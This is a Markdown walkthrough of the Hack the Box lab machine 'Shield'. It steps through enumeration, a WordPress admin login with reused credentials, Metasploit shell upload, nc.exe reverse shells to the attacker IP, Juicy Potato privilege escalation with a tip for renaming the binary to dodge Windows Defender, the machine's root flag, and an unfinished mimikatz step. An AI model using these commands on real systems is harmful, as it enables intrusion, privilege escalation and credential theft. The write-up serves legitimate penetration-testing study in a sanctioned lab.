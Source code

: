 # Shield

Welcome to Another walkthrough! This walkthrough will be based on Hack the Box starting point machine "Shield". Remember all links in this walkthrough will lead you to educatonal sources to learn more about the topic I am discussing at that point in time. I will try to do my best to explain everything in detail, but keep in mind I am learning just like you are! I hope this helps you as much as it is going to help me and enjoy your journey! 
# Enumeration
Step 1: Nmap Scan
  - As always we are going to start out with our friendly nmap scan `nmap -sS -A -oN NMAP.txt 10.10.10.29`
    - This command will scan the machine and output the results to a text file "NMAP.txt"
    ![image](https://user-images.githubusercontent.com/29686845/134412007-c23344ed-3160-4531-9386-8df0a3c6ab16.png)
  - We see that two ports are open: Port 80/tcp HTTP and Port 3306/tcp mysql. 

Step 2: Port 80: HTTP
  - Lets check out port 80 the webpage.
      ![image](https://user-images.githubusercontent.com/29686845/134413396-20d418a2-ab0e-4587-8954-1b4b351b3193.png)
    - We seem to land on a [IIS](https://docs.microsoft.com/en-us/troubleshoot/iis/configure-default-document-iis)             starting page. 
      - I tried using burpsuite and checking the webpage source/storage to see if there were any subdirectories we can           gain access too or if there were any cookies we could exploit as we did in the machines Ooopsie & Vaccine.             There was no useful information there either. 
    - Eventhough this doesn't give us much information it does give us an important piece of the puzzle. We now know that       they are running windows server (Just incase you didn't pick that up from the nmap scan). In turn we might need to       run windows commands in the future.
    - Instead lets try using the tool [GoBuster](https://tools.kali.org/web-applications/gobuster).

Step 3: GoBuster
  - [GoBuster](https://tools.kali.org/web-applications/gobuster) is a tool that allows us to brute force URIs or             directories or files in webpages and to brute force DNS sub-domains. 
  - If you dont already have GoBuster installed (which I did not) Run the command `sudo apt install gobuster` 
    - Lets run the command: 
    - `gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`
      - lets break down this command down a little bit since we are running a new tool.
      - gobuster: is the tool that we are calling to use
      - dir: is the windows equvalent to ls
      - -u: is to sepcifiy the target URL
      - -w: is to specifiy a wordlist. In this case we are going to use the common.txt.
    - Now we are going to let this run while it brute forces the password so we can get into different directories.           This may take a few minutes to complete.
      ![image](https://user-images.githubusercontent.com/29686845/134419257-79fa5f82-f03d-4b6a-900a-75b400fe5594.png)
    - We see that there is a is another directory /wordpress. so lets add that to our url. 
    - It should loook like `http://10.10.10.29/wordpress` 

# Foothold

Step 1: Word Press. 
  - The wepage seems to be a site advertising an electric truck with a smoke screen despensor and run flat tires. After exploring the page and more specifically exploring their blog we can find a link to log in. 
      ![image](https://user-images.githubusercontent.com/29686845/134676948-446c1e95-6e10-43c7-a2d0-9b0edcbabf26.png)
      ![image](https://user-images.githubusercontent.com/29686845/134677083-ba663149-978f-4dcb-9807-680cff595e87.png)
    - One thing to keep in mind is that the website is using [WordPress](https://wordpress.com/). WordPress is a a           Content Maagement system (CMS) that allows users to spin up a webpage or blog quickly and effiecently.
    - WordPress gerenally uses the username `admin` for the default credentials and since all the starting point             machines seem to follow eachother; we can try previous passwords we have from other machines to see if it works.
    - After some trial and error we find that the username and password is `admin : P@s5w0rd!`
      ![image](https://user-images.githubusercontent.com/29686845/134679391-7eb7bbdb-d230-47ca-a716-360fcead5bcd.png)
    - Now that we have access to the admin page we can look around, but it doesn't seem like we will have much access         to anything useful. 
    - I did some Research on [exploiting WordPress](https://hackertarget.com/attacking-wordpress) and it seems we can         exploit it with Metasploit's [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)

Step 2: msfconsole
  - Metasploits [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/) is an all in one tool     that provides many different resources for enumertion, exploitation, and much more.
  - based on the exploit that I reviewed which used one of the tools in `exploit/unix/webapp` so i decided I would look     there to see if anyhting of interest. 
    - we can use the command: `search exploit/unix/webapp/wp` to see what options that Metasploit has to offer.
    - The first option we can see is `wp_admin_shell_upload` whcih catches my eye.
      ![image](https://user-images.githubusercontent.com/29686845/134682886-bcee6fc3-69ec-4c87-a47f-0cae241ad3dc.png) 
    - Metasploit offers a a few options that we can use to call this command from our search command: `use 0` or we can       call the whole tool and path with: `use /exploit/unix/webapp/wp_admin_shell_upload`
      - You can only use the `use 0` command after you have done a seaerch. your calling the number of results from our         search, so if you wanted to use a different exploit you would call that numver instead.
  - Now we are going to set some optoins before we run our exploit. This will tell msfconsole the who/what/when/where       to attack with our exploit.
    - `set USERNAME admin`
    - `set PASSWORD P@s5w0rd!`
    - `set TARGETURI /wordpress
    - `set RHOSTS 10.10.10.29`
    - `set LHOST < to your tun0 IP address >` (Forgot this and realized when it wasn't wokring)
      ![image](https://user-images.githubusercontent.com/29686845/134686497-8936a54b-69f9-4fcd-b98b-b7c4f8f300c4.png)
    - We have all of our peramaters set now lets run the exploit. we can type `run` or `exploit` <-- the funniest one         of the two. 
      ![image](https://user-images.githubusercontent.com/29686845/134688488-b5465433-988a-429f-966f-d0d8d2ce9f40.png)
    - Now we have our meterpreter connection and we can get a shell by typing `shell` 
      - shell can be a little finicky at times so we can work with it or we can upgrade our shell with netcat to               provide us with more stable shell.

Step 3: Netcat

  - Kali Linux has builting resources and scripts and we are going to be calling on nc.exe to upgrade our meterpreter       shell.
    - in your kali machine directory `/usr/share/windows-resources/binaries/` you will find the nc.exe. 
    - We can copy that with the `cp` command to any directory you would like and we can call on it withing our               meterpreter as long as we provide the absolute path.
    - Within our meterpreter session lets use the local change directory command (lcd):
    - `lcd /home/splash/HTB/Starting_Point/Shield` this is my direct path to the nc.exe. (you will use yours)
    - still within our meterpreter session we will change the directory to:
    - `\inetpub\wwwroot\wordpress\wp-content\uploads`
    - Now lets upload our nc.exe with `upload nc.exe`
      ![image](https://user-images.githubusercontent.com/29686845/134699318-166baca3-2660-4a5d-b9df-98403840bff9.png)
    - We have our .exe file uploaded, so lets set up a listner and execute it:
    - run our listener `nc -lvnp 1234` in another terminal on your kali machine
    - run `execute -f nc.exe -a "-e cmd.exe 10.10.14.14 1234"` in our meterpreter session. (Keep in mind that is your         tun0 ip and set listening port)
      ![image](https://user-images.githubusercontent.com/29686845/134704321-d793013a-501c-4785-94de-df6ff2c87601.png)
      ![image](https://user-images.githubusercontent.com/29686845/134704375-c84761db-08a2-462c-b7db-2d0b73595884.png)
    - We have successful set up our more stable reverse shell.

# Privilege Escalation

Here is a [cheatsheet](http://www.cs.columbia.edu/~sedwards/classes/2015/1102-fall/Command%20Prompt%20Cheatsheet.pdf) for linux to windows commands. We are going to need it moving forward since we have a shell into a windwos machcine.

Step 1: System Information
  - First lets get some information about the system we are conencted to and see if we can find a way to get admin/root permissions.
    - Lets start by running the `systeminfo` command.
      ![image](https://user-images.githubusercontent.com/29686845/134710727-8bc1854d-0610-4911-8430-dcfc1a83ba00.png)
    - We see that we find that the os is Windows Server 2016 Standard, Version: 10.0.143393 Build 14383

Step 2: Juicy Potato
  - We are going to use a tool called [Juicy Potato](https://github.com/ohpe/juicy-potato.git). This is a varient of       the tool [Rotton Potato](https://github.com/breenmachine/RottenPotatoNG). This allows services accounts to escalate     to SYSTEM privilges by leveraging the [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-           intelligent-transfer-service-portal). Along with privileged access tokens in order to complete a [MiTM]                 (https://www.rapid7.com/fundamentals/man-in-the-middle-attacks/) or Man in the Middle attack. 
    - now we need an exe file from the [Juicy Potato](https://github.com/ohpe/juicy-potato.git) git page.                     Unfrotuinatly, the exe we are looking for is not there and I have looked through all repositiores, but was             eventually found when you add /releases to the end of the github link. It should look like:
    - `https://github.com/ohpe/juicy-potato/releases` 
    - Download the file and make it executable with `chmod +x JuicyPotato.exe`
    - Now lets upload it too the server.
      ![image](https://user-images.githubusercontent.com/29686845/134717625-76ce60bc-8627-4f20-9cae-fafbedccaab0.png)
    - We have to change the name of the file, so that when we run it windows defender wont flag it and kill the process
    - to rename it use the move command `mv JuicyPotato.exe js.exe`
    -  next lets run the start command and execute a powershell terminal.
    -  `echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.14 1111 >                 shell.bat`
    -  Lets set up another listener and call on the shell.bat file we just created.
    -  `js.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337 -c {bb6df56b-cace-11dc-9992-0019b93a3a84}`
    -  now if you go over to your netcat listner we have a new administrator shell.

# Post Exploitatoin

Step 1: Exploring

  - We start off in the system32 director in the windows server.... which we don'tt necessarily need so lets `cd \` to     get to our root directory.
    - You will find our root.txt in `c:\Users\Administrator\Desktop`. We can use the command `get-content root.txt` to       read the file and get the flag to input it into hack the box.
    - our flag: `6e9a9fdc6f64e410a68b847bb4b404fa`
  - Now I also noticed another user `sandra` while exploiring the mahcine. I looked through her user profile and found     nothing of interest there. Maybe we can find a way to get more information.
    - To do this we are going to use the mimikatz.exe that is preinstalled on our kali machines. 
    - to find this file we can runt he command `sudo find | grep mimikatz.exe` from our root directory.
    - ![image](https://user-images.githubusercontent.com/29686845/134748160-5f6d7b15-fbba-4f1a-ac7d-efaeeaba3010.png)
    - We see that we kind find the file we are looking for in `/usr/shar/windows-resources/mimikatz/` and there are to       different versions based on the bit version of windows we are working with. In this case I am going to use the         x64 or 64 bit version. `/usr/share/windows-resources/mimkatz/x64/mimikatz.exe`
    - I copied the mimkatz.exe to my shield directory. 
    - Now lets upload it back to the server with msf console like we did earlier. 
    - 


